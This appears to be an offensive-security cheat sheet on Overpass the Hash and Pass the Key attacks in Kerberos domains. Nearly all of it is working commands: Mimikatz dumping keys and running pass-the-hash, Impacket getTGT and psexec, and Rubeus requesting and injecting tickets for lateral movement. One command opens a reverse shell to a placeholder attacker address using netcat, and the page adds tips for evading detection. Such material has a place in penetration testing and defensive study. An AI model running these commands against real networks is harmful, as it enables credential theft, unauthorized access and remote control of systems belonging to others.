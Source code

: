 # Overpass the Hash / Pass the Key (PtK)

## Similar to PtH but applied to kerberos networks.

### The Overpass The Hash/Pass The Key (PTK) attack is designed for environments where the traditional NTLM protocol is restricted, and Kerberos authentication takes precedence. This attack leverages the NTLM hash or AES keys of a user to solicit Kerberos tickets, enabling unauthorized access to resources within a network.

### To execute this attack, the initial step involves acquiring the NTLM hash or password of the targeted user's account. Upon securing this information, a Ticket Granting Ticket (TGT) for the account can be obtained, allowing the attacker to access services or machines to which the user has permissions.

### If we have any of those keys (DES,RC4,AES128,AES256) we can ask the KDC for a TGT without requiring the actual password. (Pass-the-Key)

## Globally, all the Impacket tools and the ones that use the library can authenticate via Pass The Key with the -aesKey command line parameter instead of specifying the password. For NetExec it's --aesKey.

#### 

    privilege::debug

#### 

    sekurlsa::ekeys

#### 

    sekurlsa::pth /user:Administrator /domain:DOMAIN /rc4:KEY /run:"c:\tools\nc64.exe -e cmd.exe ATTACK_IP PORT"

OR 

    Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:Security.local /ntlm:<ntlmhash> /run:powershell.exe"'

#### /aes128:KEY can also be used instead 

#### /aes256:KEY can also be used instead 

#### 

    nc -lvp PORT

## Alternate Method: Impacket getTGT

    python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7

    export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache

    python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass

## Alternate Method: Rubeus

    .\Rubeus.exe asktgt /domain:jurassic.park /user:velociraptor /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt

    .\PsExec.exe -accepteula \\labwws02.jurassic.park cmd

    .\Rubeus.exe asktgt /user:<USERNAME> /domain:<DOMAIN> /aes256:HASH /nowrap /opsec (Use AES256 for better opsec)


## Tools: Rubeus , getTGT.py

#### 1) getTGT.py

    getTGT.py DOMAIN/USER -hashes:HASHES (Overpass the Hash. Pass the ticket with NTLM hash)

    getTGT.py -aesKey 'KEY' DOMAIN/USER@IP (Pass the Key. Pass the ticket with AES Key)

#### 2) Rubeus

    Rubeus asktgt /user:VICTIM /rc4:RC4_VALUE

    Rubeus ptt /ticket:TICKET (Successful PtT attack)

### Alternate usage:

    Rubeus asktgt /user:VICTIM /rc4:RC4_VALUE

    Rubeus createnetonly /program:C:\Windows\System32\[cmd.exe||upnpcont.exe]

    Rubeus ptt /luid:0xdeadbeef /ticket:TICKET (Pass the ticket)
